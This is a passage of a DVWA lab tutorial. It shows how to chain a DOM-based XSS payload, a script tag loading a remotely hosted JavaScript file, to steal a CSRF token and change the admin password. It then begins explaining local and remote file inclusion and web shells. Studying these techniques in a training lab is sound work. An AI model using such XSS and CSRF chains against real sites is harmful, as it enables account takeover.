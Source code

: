 After creating **dvwa-high.js** file, setting **correct IP** in the first line, upload it to your server and validate that the script is accessible by visiting **http://10.0.1.42:8081/dvwa-high.js**. You should see the contents of JS file on the opened page.

As we must exploit another vulnerability, open the DOM Based XSS page (**/vulnerabilities/xss\_d**). And click on the **Select** button. URL will look like this: **http://10.0.1.42:8081/vulnerabilities/xss\_d/?default=English**. What you need to do is to attach the script:

    ...=English#<script src="https://10.0.1.42/dvwa-high.js"></script>

With this URL crafted, hit Enter and refresh the page. If everything went fine, you should get a popup with the CSRF token:

![Token was Received Successfully](https://bughacking.com/wp-content/uploads/2021/04/high-2-1024x461.png)

And after hitting the OK button, request with new password and CSRF token will be sent. You can make sure about it by inspecting sent requests:

![DVWA High CSRF Vulnerability Exploited Successfully](https://bughacking.com/wp-content/uploads/2021/04/high-3.png)

And the last step would be to check if the password was really changed. For this purpose **/vulnerabilities/csrf/test\_credentials.php** page will help. WIth the username **admin** and new password **newpasswd123**.

![Password was Changed Successfully with the CSRF Token](https://bughacking.com/wp-content/uploads/2021/04/high-4.png)

You should get a success message.

**Impossible**

With the Impossible level there comes another security mechanism that should mitigate CSRF. In order to change the password, the user has to enter his old one, and this is an effective mitigation technique that fixes the vulnerability.

### File Inclusion

File inclusion vulnerability point is to make the web application to execute uploaded code. Let's say we've managed to upload a web shell to the target. By itself it does nothing, however, if we've managed to run it, we would get remote access to the host. There are two types of file inclusions:

*   **Local fle inclusion (LFI) –** in case the file was uploaded to the target and can be accessed from a local server.
*   **Remote file inclusion (RFI) –** in this type of file inclusion, file is included from a remote host.

**Low**

As you might see on the page, there are three files – **file1.php, file2.php**, and **file3.php**. All of them reside on a local server.

![DVWA File Inclusion Page has Links to Three PHP Files](https://bughacking.com/wp-content/uploads/2021/04/file-inclusion-1.png)

Now click on one of them, and pay attention to how the URL looks like. It loads file1.php like this: **?page=file1.php**.

![URL Structure of the File Inclusion Vulnerability](https://bughacking.com/wp-content/uploads/2021/04/file-inclusion-2.png)

